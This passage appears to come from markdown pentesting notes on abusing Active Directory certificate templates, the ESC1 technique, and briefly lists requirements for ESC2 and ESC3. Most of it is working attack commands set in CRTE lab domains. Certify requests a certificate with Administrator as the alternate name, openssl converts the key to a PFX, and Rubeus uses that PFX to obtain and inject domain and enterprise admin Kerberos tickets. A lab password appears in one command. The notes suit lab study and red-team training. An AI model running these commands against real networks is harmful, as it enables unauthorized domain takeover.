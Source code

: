 

#### 2. Enroll in the template

```powershell
# Certify
Certify.exe request /cs:dc.theshire.local\theshire-DC-CA /template:ESC1Template /altname:Administrator

# CRTE Lab
C:\AD\Tools\Certify.exe request /ca:Techcorp-DC.techcorp.local\TECHCORP-DC-CA /template:ForAdminsofPrivilegedAccessWorkstations /altname:Administrator
```



#### 3. Change the RSA into a PFX

> Paste the Private key in a file named : _cert.pem_

```bash
# linux
# openssl and provide a password
openssl pkcs12 -in cert.pem -keyex -CSP "Microsoft Enhanced Cryptographic Provider v1.0" -export -out cert.pfx
```

```powershell
# windows
# openssl and provide a password
C:\AD\Tools\openssl\openssl.exe pkcs12 -in C:\AD\Tools\cert.pem - keyex -CSP "Microsoft Enhanced Cryptographic Provider v1.0" -export -out C:\AD\Tools\DA.pfx
```

#### 4. Request a TGT with the pfx

```powershell
# Rubeus
# Request DA TGT and inject it
Rubeus.exe asktgt /user:Administrator /certificate:cert.pfx /password:password /ptt

# Request EA TGT and inject it
Rubeus.exe asktgt /user:techcorp.local\Administrator /dc:techcorp-dc.techcorp.local /certificate:C:\AD\Tools\EA.pfx /password:SecretPass@123 /nowrap /ptt
```



#### **ESC2**

1. General requirements
2. The Any Purpose EKU or No EKU

#### **ESC3**

1. General requirements + no “enrollment agent restrictions”
2. The Certificate Request Agent EKU
3. Enrollment rights to template with a few other requirements
